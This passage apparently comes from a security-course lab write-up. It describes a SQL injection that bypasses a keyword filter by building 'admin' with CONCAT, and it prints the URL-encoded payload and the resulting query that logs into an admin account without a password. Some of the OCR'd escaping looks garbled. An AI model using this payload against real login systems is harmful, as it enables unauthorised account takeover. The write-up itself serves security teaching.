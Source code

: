 We then perform the same password-bypass exploit as in the first injection, with the added detail of using `CONCAT('ad','min@dss-graiding.org')` to ensure that the character sequence 'admin' does not appear in our input. Careful placement of single quotes `'` ensures that the server-side application interprets our CONCAT keyword as SQL syntax and not string text. The endpoint for running this query is `https://dss-lab.edu.distrinet-research.be/authenticate?email=[email]\&password=[password]`, and so we provide the following email parameter: `fake\%27\%09OR\%09email\%3DCONCAT\%28\%27ad\%27\%2C\%27min\%40ds\\s-graiding.org\%27\%29\%09--\%09x`. This will result in the following SQL query being run on the server: `SELECT * FROM users WHERE email = ’fake' OR email=CONCAT('ad','min@dss-graiding.org') \\-- x' AND password = ‘x’`. This will log us into the admin account, despite no knowledge of the password and the system being designed to prevent admin login from this endpoint, and give us access to the "admin panel", thereby compromising the security of the system.

